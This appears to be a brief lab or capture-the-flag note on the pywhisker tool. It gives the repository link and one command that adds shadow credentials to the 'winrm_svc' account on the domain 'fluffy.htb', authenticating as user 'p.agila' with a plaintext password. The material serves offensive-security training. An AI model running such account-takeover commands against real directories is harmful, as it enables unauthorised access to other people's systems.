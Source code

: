 # pywhisker

## Overview

## Installation

https://github.com/ShutdownRepo/pywhisker.git

## Usage

Get certificates

```shell
pywhisker -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
```